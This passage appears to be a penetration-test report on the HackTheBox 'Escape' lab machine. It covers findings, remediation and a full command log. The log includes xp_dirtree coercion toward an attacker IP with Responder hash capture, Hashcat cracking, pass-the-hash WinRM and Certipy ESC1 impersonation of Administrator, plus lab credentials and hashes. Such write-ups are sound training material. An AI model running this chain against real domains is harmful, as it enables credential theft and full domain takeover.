`Screenshot adminpfx.png: Certipy issuing a certificate with the administrator UPN` `Screenshot adminhash.png: Certipy retrieving the Administrator NT hash from the certificate`

---

### 2. Exposed Credentials in Document on Accessible SMB Share — High

| Field                              | Details                                                                                                                                                                                                  |
| ---------------------------------- | -------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- |
| **CWE**                            | CWE-522: Insufficiently Protected Credentials                                                                                                                                                            |
| **CVSS 3.1 Score**                 | 7.5 (High) — `CVSS:3.1/AV:N/AC:L/PR:N/UI:N/S:U/C:H/I:N/A:N`                                                                                                                                              |
| **Description (Incl. Root Cause)** | The non-default `Public` SMB share on the Domain Controller was accessible and contained `SQL Server Procedures.pdf`. A "Bonus" section of that document disclosed the `PublicUser` database account and its password (`GuestUserCantWrite1`) in plaintext, intended as convenience access for new hires. The root cause is the storage of live credentials inside a document placed on a broadly accessible file share. |
| **Security Impact**                | Any user able to reach the `Public` share can read valid SQL Server credentials, providing the initial authenticated foothold into the environment. This is the entry point of the entire compromise chain. |
| **Affected Host(s)**               | `10.129.228.253:445` (SMB share: `Public`, file: `SQL Server Procedures.pdf`)                                                                                                                            |
| **Remediation**                    | - Remove all credentials from documents and never distribute live credentials in shared files — Restrict the `Public` share to only the accounts or groups that require it, and audit its contents for other sensitive material — Provision database access through individual, tracked accounts rather than a shared "public" login — Rotate the `PublicUser` password, which has been disclosed |
| **References**                     | [MITRE ATT&CK: T1135 — Network Share Discovery](https://attack.mitre.org/techniques/T1135/) · [MITRE ATT&CK: T1552.001 — Unsecured Credentials: Credentials In Files](https://attack.mitre.org/techniques/T1552/001/) · [CWE-522: Insufficiently Protected Credentials](https://cwe.mitre.org/data/definitions/522.html) |

**Evidence:**

```
smbclient -L \\sequel.htb\
# Public share accessible

smbclient \\sequel.htb\public
get "SQL Server Procedures.pdf"
# Document contains: PublicUser / GuestUserCantWrite1
```

`Screenshot smblist.png: smbclient listing shares including the non-default Public share` `Screenshot credentialsmssql.png: Bonus section of the PDF disclosing PublicUser credentials`

---

### 3. Domain Credentials Stored in Plaintext in SQL Server Log File — High

| Field                              | Details                                                                                                                                                                                                  |
| ---------------------------------- | -------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- |
| **CWE**                            | CWE-532: Insertion of Sensitive Information into Log File                                                                                                                                                 |
| **CVSS 3.1 Score**                 | 8.1 (High) — `CVSS:3.1/AV:N/AC:L/PR:L/UI:N/S:U/C:H/I:H/A:N`                                                                                                                                              |
| **Description (Incl. Root Cause)** | An archived SQL Server error log (`C:\sqlserver\Logs\ERRORLOG.bak`), readable by the `sql_svc` account, recorded a failed login for `sequel.htb\Ryan.Cooper` immediately followed by a failed login for the "user" `NuclearMosquito3`. This is the signature of a user accidentally typing their password into the username field. Because failed login attempts log the supplied username verbatim, `Ryan.Cooper`'s password was written to the log in plaintext. |
| **Security Impact**                | Reading a single log file was sufficient to recover valid domain credentials for `Ryan.Cooper`, enabling lateral movement. `Ryan.Cooper`'s access was in turn the enabler for the ADCS ESC1 exploitation that led to full domain compromise (Finding #1). |
| **Affected Host(s)**               | `dc.sequel.htb` — `C:\sqlserver\Logs\ERRORLOG.bak`                                                                                                                                                       |
| **Remediation**                    | - Restrict read access to SQL Server log files to only authorised administrators — Educate users to enter credentials only in the correct fields, and rotate the `Ryan.Cooper` password, which has been disclosed — Where possible, configure logging so that failed authentication attempts do not persist supplied usernames that may contain mistyped secrets — Review existing logs for other inadvertently captured credentials and purge them |
| **References**                     | [MITRE ATT&CK: T1552.001 — Unsecured Credentials: Credentials In Files](https://attack.mitre.org/techniques/T1552/001/) · [CWE-532: Insertion of Sensitive Information into Log File](https://cwe.mitre.org/data/definitions/532.html) |

**Evidence:**

```
type c:\sqlserver\Logs\ERRORLOG.bak
# Logon failed for user 'sequel.htb\Ryan.Cooper' ...
# Logon failed for user 'NuclearMosquito3' ...
# Credentials recovered: Ryan.Cooper / NuclearMosquito3
```

`Screenshot ryancoppercreds.png: ERRORLOG.bak showing the Ryan.Cooper login failure followed by the password logged as a username`

---

### 4. MSSQL Service Coercible into Leaking Account Hash (xp_dirtree) — Medium

| Field                              | Details                                                                                                                                                                                                  |
| ---------------------------------- | -------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- |
| **CWE**                            | CWE-918: Server-Side Request Forgery (SSRF) / CWE-306: Missing Authentication for Critical Function                                                                                                       |
| **CVSS 3.1 Score**                 | 6.5 (Medium) — `CVSS:3.1/AV:N/AC:L/PR:L/UI:N/S:U/C:H/I:N/A:N`                                                                                                                                            |
| **Description (Incl. Root Cause)** | Microsoft SQL Server exposes the `xp_dirtree` extended stored procedure to authenticated users. When directed at a UNC path (`\\attacker\share`), the SQL Server service authenticates outbound over SMB using the credentials of the account it runs as (`sql_svc`). An attacker running a listener such as Responder captures the resulting NetNTLMv2 hash. The root cause is that a low-privileged database login is able to invoke a procedure that triggers outbound authentication of a privileged service account. |
| **Security Impact**                | With only the low-privileged `PublicUser` login, the NetNTLMv2 hash of the `sql_svc` domain service account was captured. Combined with a weak password (Finding #5), this yielded a plaintext credential and a WinRM foothold on the Domain Controller. |
| **Affected Host(s)**               | `10.129.228.253:1433` (Microsoft SQL Server 2019)                                                                                                                                                        |
| **Remediation**                    | - Restrict execution of `xp_dirtree` and other file-system extended stored procedures to administrators only — Prevent outbound SMB from servers to untrusted hosts using host and network firewall egress rules — Enforce SMB signing and consider disabling NTLM in favour of Kerberos to reduce the value of captured hashes — Run SQL Server under a low-privileged, tightly scoped service account and monitor for anomalous outbound authentication |
| **References**                     | [MITRE ATT&CK: T1187 — Forced Authentication](https://attack.mitre.org/techniques/T1187/) · [MITRE ATT&CK: T1557.001 — LLMNR/NBT-NS Poisoning and SMB Relay](https://attack.mitre.org/techniques/T1557/001/) · [CWE-918: Server-Side Request Forgery](https://cwe.mitre.org/data/definitions/918.html) |

**Evidence:**

```
# Listener started:
sudo responder -I tun0 -v

# Coercion from the SQL shell:
EXEC MASTER.sys.xp_dirtree '\\10.10.15.85\test', 1, 1
# Responder captured NetNTLMv2 hash for sequel\sql_svc
```

`Screenshot sqlsvchash.png: Responder capturing the sql_svc NetNTLMv2 hash after xp_dirtree coercion`

---

### 5. Weak Service Account Password — Low

| Field                              | Details                                                                                                                                                                                                  |
| ---------------------------------- | -------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- |
| **CWE**                            | CWE-521: Weak Password Requirements                                                                                                                                                                      |
| **CVSS 3.1 Score**                 | 4.3 (Medium) — `CVSS:3.1/AV:N/AC:L/PR:L/UI:N/S:U/C:L/I:N/A:N`                                                                                                                                            |
| **Description (Incl. Root Cause)** | The `sql_svc` service account was configured with the password `REGGIE1234ronnie`, which is present in the publicly available `rockyou.txt` wordlist. Once its NetNTLMv2 hash was captured (Finding #4), Hashcat recovered the plaintext in approximately six seconds. Because the hash was captured offline, cracking was not subject to any account lockout or rate limiting. |
| **Security Impact**                | The weak password provided no meaningful protection. Cracking it converted the captured hash into reusable plaintext credentials, directly enabling the interactive WinRM foothold as `sql_svc` on the Domain Controller. |
| **Affected Host(s)**               | `dc.sequel.htb` — domain account `sequel\sql_svc`                                                                                                                                                        |
| **Remediation**                    | - Assign long, random passwords (25+ characters) to all service accounts, or migrate to Group Managed Service Accounts (gMSA) where passwords are managed and rotated automatically by Active Directory — Enforce a strong password policy across the domain and screen new passwords against known-compromised wordlists — Rotate the `sql_svc` password, which has been disclosed |
| **References**                     | [MITRE ATT&CK: T1110.002 — Brute Force: Password Cracking](https://attack.mitre.org/techniques/T1110/002/) · [CWE-521: Weak Password Requirements](https://cwe.mitre.org/data/definitions/521.html)      |

**Evidence:**

```
hashcat -m 5600 hash.txt /usr/share/wordlists/rockyou.txt
# Status: Cracked (6 secs)
# sql_svc : REGGIE1234ronnie
```

`Screenshot sqlsvcpasswd.png: Hashcat cracking the sql_svc NetNTLMv2 hash to REGGIE1234ronnie in six seconds`

---

## Remediation Summary

### Short Term

- **Finding #1 (ADCS ESC1)** — Remove the `ENROLLEE_SUPPLIES_SUBJECT` flag from the `UserAuthentication` template and/or enable manager approval, restrict enrolment away from `Domain Users`, and rotate the Administrator credentials.
- **Finding #2 (Exposed Credentials on Share)** — Remove `SQL Server Procedures.pdf` (and any other credential-bearing files) from the `Public` share, restrict the share, and rotate the `PublicUser` password.
- **Finding #3 (Plaintext Credentials in Log)** — Restrict access to SQL Server logs, purge the exposed credential, and rotate the `Ryan.Cooper` password.
- **Finding #4 (xp_dirtree Coercion)** — Restrict `xp_dirtree` execution to administrators and block outbound SMB from the SQL host.
- **Finding #5 (Weak Password)** — Rotate the `sql_svc` password to a long, random value.

### Medium Term

- **Finding #1 (ADCS ESC1)** — Perform a full audit of every certificate template on `sequel-DC-CA` against the ESC1–ESC8 misconfiguration classes, and remediate all that are found. Establish a change-control process for template modifications.
- **Finding #2 / #3 (Exposed Credentials)** — Deploy a secrets management solution so that credentials are never stored in documents, shares, or logs. Audit all file shares and logs across the domain for other exposed secrets.
- **Finding #4 (xp_dirtree Coercion)** — Enforce SMB signing domain-wide and begin phasing out NTLM in favour of Kerberos to reduce the impact of any future authentication coercion.
- **Finding #5 (Weak Password)** — Migrate service accounts to Group Managed Service Accounts (gMSA) and screen all passwords against known-compromised wordlists.

### Long Term

- Implement an Active Directory tiering model (Tier 0/1/2) so that service accounts and low-privileged users can never reach Tier-0 assets such as the Domain Controller and Certificate Authority.
- Establish an enterprise PKI governance process covering template design, periodic review, and least-privilege enrolment rights.
- Deploy centralised secrets management and eliminate the practice of embedding credentials in files, shares, scripts, and documents.
- Establish recurring reviews of SMB share permissions, certificate templates, and service account configurations to detect misconfiguration drift before it can be exploited.

---

## Lessons Learned / Skills Demonstrated

**Skill/Technique 1: Credentialed SMB Enumeration and Document Triage.** Identified a non-default `Public` share, retrieved a procedures document, and recognised that its "Bonus" section contained live database credentials — turning an information-disclosure oversight into the initial authenticated foothold.

**Skill/Technique 2: MSSQL Authentication Coercion via xp_dirtree.** Leveraged a low-privileged SQL login to invoke `xp_dirtree` against an attacker-controlled UNC path, coercing the SQL service account to authenticate outbound and capturing its NetNTLMv2 hash with Responder — a widely applicable technique against exposed MSSQL instances.

**Skill/Technique 3: Offline NetNTLMv2 Cracking.** Used Hashcat in mode 5600 with the `rockyou.txt` wordlist to convert the captured NetNTLMv2 hash into a reusable plaintext password within seconds, demonstrating the real-world impact of weak service account passwords.

**Skill/Technique 4: Credential Discovery in Application Logs.** Reviewed an archived SQL Server error log during post-exploitation and recognised the tell-tale pattern of a password mistakenly entered as a username, recovering a second set of domain credentials for lateral movement.

**Skill/Technique 5: ADCS ESC1 Exploitation.** Enumerated certificate templates with Certipy, identified the ESC1 misconfiguration on the `UserAuthentication` template, requested a certificate with an arbitrary Subject Alternative Name to impersonate the Domain Administrator, and used the resulting certificate to recover the Administrator NT hash — achieving full domain compromise from a standard domain user.

---

## Appendix

### A. Finding Severity Definitions

| Rating       | Definition                                                                                     |
| ------------ | ---------------------------------------------------------------------------------------------- |
| **Critical** | Exploitation leads to full system/domain compromise with little to no effort or prerequisites. |
| **High**     | Exploitation causes substantial harm to confidentiality, integrity, or availability.           |
| **Medium**   | Exploitation has a moderate impact, or a high-impact issue with limited exposure.              |
| **Low**      | Exploitation causes minimal impact to operations.                                              |
| **Info**     | An observation or improvement opportunity; not itself a vulnerability.                         |

### B. Exploited Hosts

| Host                    | Method                                                  | Notes                                                       |
| ----------------------- | ------------------------------------------------------- | ---------------------------------------------------------- |
| `10.129.228.253:445`    | SMB share access                                        | `SQL Server Procedures.pdf` downloaded; PublicUser creds   |
| `10.129.228.253:1433`   | MSSQL auth + `xp_dirtree` coercion                      | `sql_svc` NetNTLMv2 hash captured via Responder            |
| `10.129.228.253:5985`   | Credential-based WinRM (cracked `sql_svc` password)     | Interactive shell as `sequel\sql_svc`                      |
| `10.129.228.253:5985`   | Credential-based WinRM (creds from `ERRORLOG.bak`)      | Interactive shell as `sequel\Ryan.Cooper`; user.txt        |
| `dc.sequel.htb`         | ADCS ESC1 certificate abuse + pass-the-hash WinRM       | Full administrative shell as `Administrator`; root.txt      |

### C. Compromised Users / Credentials

| Username        | Method                                                            | Notes                                            |
| --------------- | ---------------------------------------------------------------- | ------------------------------------------------ |
| `PublicUser`    | Plaintext credentials in PDF on `Public` SMB share               | MSSQL access; used to coerce `sql_svc`           |
| `sql_svc`       | NetNTLMv2 hash captured via `xp_dirtree`, cracked with Hashcat    | Initial WinRM foothold                            |
| `Ryan.Cooper`   | Plaintext password recovered from SQL Server `ERRORLOG.bak`       | Lateral movement; enabled ADCS abuse; user.txt   |
| `Administrator` | ADCS ESC1 certificate impersonation → NT hash via Certipy         | Full domain compromise; root.txt captured        |

### D. Command Reference Log

```
# ──────────────────────────────────────────────
# PHASE 1: RECONNAISSANCE & ENUMERATION
# ──────────────────────────────────────────────
sudo nmap 10.129.228.253 -sC -sV -Pn
echo '10.129.228.253 sequel.htb dc.sequel.htb' | sudo tee -a /etc/hosts

smbclient -L \\sequel.htb\
smbclient \\sequel.htb\public
dir
get "SQL Server Procedures.pdf"
exit
# Credentials found in PDF: PublicUser / GuestUserCantWrite1

# ──────────────────────────────────────────────
# PHASE 2: MSSQL ACCESS, COERCION & FOOTHOLD
# ──────────────────────────────────────────────
impacket-mssqlclient PublicUser:GuestUserCantWrite1@sequel.htb

# In a second terminal:
sudo responder -I tun0 -v

# From the SQL shell:
EXEC MASTER.sys.xp_dirtree '\\10.10.15.85\test', 1, 1
# Captured NetNTLMv2 hash for sequel\sql_svc

echo 'sql_svc::sequel:a0b8f06bf12dda68:9AB0DE8AB94588EA34D16EACC611089D:0101...' > hash.txt
hashcat -m 5600 hash.txt /usr/share/wordlists/rockyou.txt
# Password: REGGIE1234ronnie

evil-winrm -i sequel.htb -u sql_svc -p REGGIE1234ronnie
ls C:\Users

# ──────────────────────────────────────────────
# PHASE 3: LATERAL MOVEMENT
# ──────────────────────────────────────────────
type c:\sqlserver\Logs\ERRORLOG.bak
# Reveals: sequel.htb\Ryan.Cooper / NuclearMosquito3

evil-winrm -i sequel.htb -u ryan.cooper -p NuclearMosquito3
type C:\Users\Ryan.Cooper\Desktop\user.txt
# 677246a66c604e88da012d5c26e03fc9

# ──────────────────────────────────────────────
# PHASE 4: ADCS ESC1 ABUSE & FULL COMPROMISE
# ──────────────────────────────────────────────
.\Certipy.exe find -vulnerable -stdout -u ryan.cooper@sequel.htb -p 'NuclearMosquito3' -dc-ip 10.129.228.253
# UserAuthentication -> ESC1

certipy req -u ryan.cooper@sequel.htb -p NuclearMosquito3 -upn administrator@sequel.htb -target sequel.htb -ca sequel-dc-ca -template UserAuthentication
# -> administrator.pfx

sudo ntpdate -u dc.sequel.htb
certipy auth -pfx administrator.pfx -domain sequel.htb -dc-ip 10.129.228.253
# NT hash: a52f78e4c751e5f5e17e1e9f3e58f4ee

evil-winrm -i sequel.htb -u administrator -H a52f78e4c751e5f5e17e1e9f3e58f4ee
type C:\Users\Administrator\Desktop\root.txt
# 0e0b2b5c5f553b018c79c28082421031
```

### E. References

- [MITRE ATT&CK: T1135 — Network Share Discovery](https://attack.mitre.org/techniques/T1135/)
- [MITRE ATT&CK: T1552.001 — Unsecured Credentials: Credentials In Files](https://attack.mitre.org/techniques/T1552/001/)
- [MITRE ATT&CK: T1187 — Forced Authentication](https://attack.mitre.org/techniques/T1187/)
- [MITRE ATT&CK: T1557.001 — LLMNR/NBT-NS Poisoning and SMB Relay](https://attack.mitre.org/techniques/T1557/001/)
- [MITRE ATT&CK: T1110.002 — Brute Force: Password Cracking](https://attack.mitre.org/techniques/T1110/002/)
- [MITRE ATT&CK: T1532.001 — Unsecured Credentials: Credentials In Files](https://attack.mitre.org/techniques/T1552/001/)
- [MITRE ATT&CK: T1649 — Steal or Forge Authentication Certificates](https://attack.mitre.org/techniques/T1649/)
- [CWE-269: Improper Privilege Management](https://cwe.mitre.org/data/definitions/269.html)
- [CWE-521: Weak Password Requirements](https://cwe.mitre.org/data/definitions/521.html)
- [CWE-522: Insufficiently Protected Credentials](https://cwe.mitre.org/data/definitions/522.html)
- [CWE-532: Insertion of Sensitive Information into Log File](https://cwe.mitre.org/data/definitions/532.html)
- [CWE-918: Server-Side Request Forgery](https://cwe.mitre.org/data/definitions/918.html)
- [SpecterOps — Certified Pre-Owned (ADCS attacks)](https://posts.specterops.io/certified-pre-owned-d95910965cd2)
- [Certipy — ly4k/Certipy](https://github.com/ly4k/Certipy)
- [Official HackTheBox Escape Machine Page](https://app.hackthebox.com/machines/Escape)

> **Note on CVEs:** No CVEs apply to this assessment. All findings are misconfigurations, insecure credential storage practices, weak password choices, and an over-permissive certificate template rather than vulnerabilities in versioned third-party software with public CVE assignments. Remediation is therefore configuration- and process-based.
